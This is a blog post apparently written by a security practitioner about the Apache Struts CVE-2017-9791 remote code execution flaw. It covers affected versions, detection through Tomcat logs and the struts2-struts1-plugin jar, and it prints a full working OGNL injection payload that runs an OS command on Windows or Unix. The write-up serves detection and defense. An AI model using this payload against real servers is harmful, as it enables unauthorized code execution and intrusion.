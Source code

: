 ```yaml
---
title: "CVE-2017-9791 exploit details"
layout: post
---
```


Was looking back through some of my notes and came across this write up I did for a Struts exploit. Nothing crazy but what I liked about the notes I captured was around detection on what defenders could have alerted on when this exploit came out. Enjoy!


Confirmed publicly released exploits of CVE-2017-9791 do allow remote code execution with privileges of the web server.  In recent vulnerabilities involving Struts and others it appears that most business functions follow the best practice of running the web server without admin or root privileges but of course this needs to be confirmed on a case by case basis.

The vulnerable functionality within Struts 2.3.X and below is a sample Struts application that comes bundled by default named struts2-showcase, this application is not installed by default so one would have to intentionally deploy this application.  Below is a screenshot showing it deployed.

![](https://lh5.googleusercontent.com/Cna7087uCh5hl3NVMnHjc5lqM8ebpQvU8Al1V8fei6YU2xxhzWOwWdi3riS8SvBe2GpNuxyYd0CHrjyDc8hF5VLtFDy-1oKLcM_YGDHQ9WTzeRZdglj2ji55yfAhBXr-eHaRntmM)

Below is a screenshot of the vulnerable functionality within Showcase.

![](https://lh4.googleusercontent.com/_8yGvO5MwjNvFFpDXuWXANsrIXKzbp8dfnZR0VbDbCQqUAkuatZ2Un38nVivkBBuyGozvs4_QvjoZBF7wG-nZ9mwI6kmeMyYNEovYx97xBoA89gEutZmb8ZNY7M6943hhvVcyFQL)

The URL to access this functionality is [http://hostname.com/struts2-showcase/integration/editGangster.action](http://hostname.com/struts2-showcase/integration/editGangster.action), once there one can fill out the forms and submit the request to test the working example.  Once that request is submitted it goes to the server as a post request.  

POST /struts2-showcase/integration/saveGangster.action  

Knowing if these URLs exist is one way of determining if the underlying Struts system is vulnerable as Struts 2.5.X does not contain this functionality.  Struts 2.5.X will contain the struts2-showcase application but not the Struts1 plugin. In comparing the downloads of different Struts version only the ones with the “struts2-struts1-plugin” Jar file were vulnerable.

![](https://lh3.googleusercontent.com/Kt1dnmIX8iUrZh5QqtzhQwldfHbFQcFBkAPSzuHH9Y_PewFTLJR8o1KQiNOtF0Pc9LQMUSHU0xBHwpjbciCUoIKlebdh7agT9Rqu1FbGEOBwhHu48YhgZ-EFCo5yhh5SX5CtKCnS)

So if the vulnerable application isn’t deployed but you had access to the file system of the web server then checking for the struts2-struts1-plugin Jar file is another way of confirming if the underlying system could be exposed in the future.

We used publicly known techniques to confirm exploitation was possible, similar to a posting here [https://github.com/nixawk/labs/issues/8](https://github.com/nixawk/labs/issues/8).  Sending a specialized URL request with a proof of concept to execute the command whoami can be seen below.

![](https://lh4.googleusercontent.com/mrHQtGcs7kY7vgWlKrXZgn0Rrbm1OI4zzejyjStQwmFqhD5dhjenv-gJkVWzgE8tzpMRIQObhsxBXSfsAqSC0fhsU9_X4dZ5KVofI-v7vmz5LWpXoHaA12TaDA2EqudzN9ubY3Z3)

The request has to be URL encoded but the complete translation is below.  

POST /struts2-showcase/integration/saveGangster.action HTTP/1.0
Content-Length: 1187
Host: 192.168.142.216:8080
Content-Type: application/x-www-form-urlencoded
Connection: close
User-Agent: Python-urllib/2.7  

name=%{(#\_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context\['com.opensymphony.xwork2.ActionContext.container'\]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}&age=1337&\_\_cheackbox\_bustedBefore=true&description=blah

Here is the exploit being ran from the command line via a python script.

![](https://lh6.googleusercontent.com/BxY99kAz6J2xN5sGQLFsEe9rn4SJcFHGAfYV_cDrMHAQ7ru-vMuwrpKioKNjuf_miRS9EhgkA4_0KHLsATVeMJdjDi_gYG8EkcmGiw6ouG3tdMz77tPWLEi5rElzbxJhNzx0fCQq)

If logging is enabled within Tomcat it will have the individual URL requests, in Windows these logs are located in c:\\Program Files (x86)\\Apache Software Foundation\\Tomcat\\logs with the name of the log being localhost\_access\_log.date.  A snippet of these logs are below with the last request being the saveGangster.action request.  

192.168.142.216 - - \[08/Jul/2017:20:03:51 -0400\] "GET / HTTP/1.1" 200 11418

192.168.142.216 - admin \[08/Jul/2017:20:03:53 -0400\] "GET /manager/html HTTP/1.1" 200 12398

192.168.142.216 - admin \[08/Jul/2017:20:04:40 -0400\] "POST /manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=817A45627CEDACBC2F98D9BF3B598839 HTTP/1.1" 200 14179

192.168.142.128 - admin \[08/Jul/2017:20:04:55 -0400\] "GET /manager/html HTTP/1.1" 200 14179

192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/tomcat.gif HTTP/1.1" 304 -

192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/asf-logo.svg HTTP/1.1" 304 -

192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/index.action HTTP/1.1" 200 10870

192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/integration/editGangster.action HTTP/1.1" 200 12001

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/xhtml/styles.css HTTP/1.1" 200 1093

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730

192.168.142.128 - - \[08/Jul/2017:20:10:16 -0400\] "POST /struts2-showcase/integration/saveGangster.action HTTP/1.1" 200 11408  

This remote code execution exploit has been proven to work on Windows and \*nix systems.  For detection purposes simply looking for the gangster.action in logs would be a great indicator of malicious activity but not the end all be all.  There are different styles of payloads that can be used to take advantage of this vulnerability so a combination of the gangster.action plus ONGL functionality plus OS style commands will be a better indicator of malicious activity.
